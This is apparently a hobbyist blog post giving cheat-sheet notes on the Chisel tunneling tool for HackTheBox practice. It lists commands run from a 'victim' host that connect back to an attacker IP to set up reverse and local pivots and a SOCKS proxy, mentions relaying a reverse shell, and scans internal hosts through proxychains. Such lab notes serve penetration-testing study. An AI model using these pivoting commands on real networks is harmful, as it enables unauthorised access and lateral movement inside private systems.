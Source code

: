 ```yaml
---
layout: post
title: My Notes about Chisel (Tool for Tunneling)
tags: [System Hacking, Chisel]
comments: true
---
```


Hey guys today i am sharing my little notes about a insane tool called **chisel**. Chisel, one of the tool i am using mostly while doing HackTheBox.

Thanks to **ippsec** for teaching me about chisel.

I will show you some important usages of chisel with example.

## Chisel cheat sheet.

* Here attacker IP is **10.14.14.14** and client IP is **10.10.10.10**.

### Reverse Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 --reverse
~~~

   * --reverse : Tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box.

* From victim (10.10.10.10 is client).

~~~
chisel client 10.14.14.14:8000 R:8001:172.18.0.3:80 (This will listen on port 8001 on all interface on attacker box). (Bad way)
~~~

OR

~~~
chisel client 10.14.14.14:8000 R:127.0.0.1:8001:172.18.0.3:80 (Best way)
~~~

  * chisel connect to server.
    
  * and open port 8001 on remote box which is on server. R is for remote,
    
  * if any packet on server:8001 it will go through tunnel we created through 8000 and then send it out to 172.18.0.3:80.
    
So now we can do a curl command from our kali box (curl 127.0.0.1:8001) and we can now access website running on 172.18.0.3:80.

### Local Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel client 10.14.14.14:8000 9001:127.0.0.1:8001
~~~

 * chisel connect to server.
 
 * open port 9001 on client (10.10.10.10).
 
 * any packet to 10.10.10.10:9001 will go through tunnel and land on port 10.14.14.14:8001.

So now send reverse shell to 9001 from somewhere on the network and recieve it on 8001 on attacker box.

### Socks Proxy

Chisel also supports **socks** option.

As usual,

* From attacker box start chisel server.

~~~
chisel server -p 8000 --reverse
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel.exe client 10.14.14.14:8000 R:0.0.0.0:1080:socks
~~~

OR

~~~
chisel.exe client 10.14.14.14:8000 R:socks
~~~

I usually use proxychains. To use proxychains you just have to add the following line to **/etc/proxychains.conf**:

~~~
socks5 127.0.0.1 1080
~~~

Then use proxychains with all your favourite tools,

~~~
proxychains nmap -sC -sT -p 80 172.19.0.4
~~~

Hope this will help..
